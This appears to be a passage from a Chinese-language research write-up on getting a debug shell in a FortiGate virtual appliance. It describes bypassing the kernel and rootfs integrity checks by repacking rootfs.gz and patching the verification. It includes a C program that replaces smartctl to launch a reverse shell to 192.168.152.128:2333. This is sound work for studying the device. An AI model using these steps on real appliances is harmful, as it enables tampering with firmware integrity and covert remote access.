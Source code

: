 ![bin-init-main](/img/FortiGate-Setup/bin-init-main.png)

在`verifyKernelAndRootfs_450510()`的地方会验证`flatkc`和`rootfs`文件目录的结果

## 绕过

### 思路

最开始想的是，直接利用重打包`rootfs.gz`（注：这里`/dev/sda1`比较小，需要放到外面再重打包），调试虚拟机内核时修改`flatkc`中的指向`/sbin/init`的字符串为`/sh`，从而直接执行`busybox`的`sh`，结果不成功，可能是`/bin/init`中对于一些设备进行了初始化

于是还是得按照别人博客中的思路，重打包`rootfs.gz`，自己实现`/sbin/init`干的事情即解压文件，并把`/bin/busybox`丢进去；在调试内核的时候，修改`flatkc`的校验，使其不`panic`且修改其指向的字符串为`/bin/init`；执行`/bin/init`时修改验证的返回值，使其正常过检测

在重打包`rootfs.gz`的时候，修改`rootfs`中的`smartctl`的逻辑，通过 [reverse_shell](https://github.com/leommxj/prebuilt-multiarch-bin/blob/bin/x86_64_tools/reverse_shell) 反弹`shell`，然后通过`diagnose hardware smartctl`指令进行执行`smartctl`

```c
// gcc ./smartctl.c -static -o ./smartctl
#include <stdio.h>

void shell(){
    system("/bin/busybox ls", 0, 0);
    system("/bin/busybox id", 0, 0);
    system("/bin/reverse_shell 192.168.152.128 2333 && /bin/busybox id", 0, 0);
    return;
}

int main(int argc, char const *argv[])
{
    shell();
    return 0;
}
```
